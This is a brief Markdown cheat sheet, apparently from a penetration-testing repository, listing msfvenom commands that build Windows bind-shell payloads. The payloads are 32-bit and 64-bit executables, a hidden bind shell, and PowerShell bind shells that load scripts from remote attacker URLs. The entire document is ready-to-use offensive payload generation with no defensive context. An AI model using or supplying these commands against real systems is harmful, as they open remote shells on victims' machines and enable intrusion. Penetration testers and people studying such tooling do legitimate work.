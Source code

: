 # Bind Shells

## 01 - x86 (32-bit) Payloads

```
$ msfvenom -p windows/shell_bind_tcp lport=<PORT> -f exe -o shell-x86.exe

$ msfvenom -p windows/shell_bind_hidden_tcp ahost=<IP> lport=<PORT> -f exe -o hidden-shell-x86.exe
```

- You can load powershell scripts ahead of time.

```
$ msfvenom -p cmd/windows/powershell_bind_tcp lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o shell.ps1

$ msfvenom -p windows/powershell_bind_tcp lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o shell.ps1
```

## 02 - x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/shell_bind_tcp lhost=<IP> lport=<PORT> -f exe -o shell-x86-64.exe
```

- You can load powershell scripts ahead of time.

```
$ msfvenom -p windows/x64/powershell_bind_tcp lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o shell-x86-64.ps1
```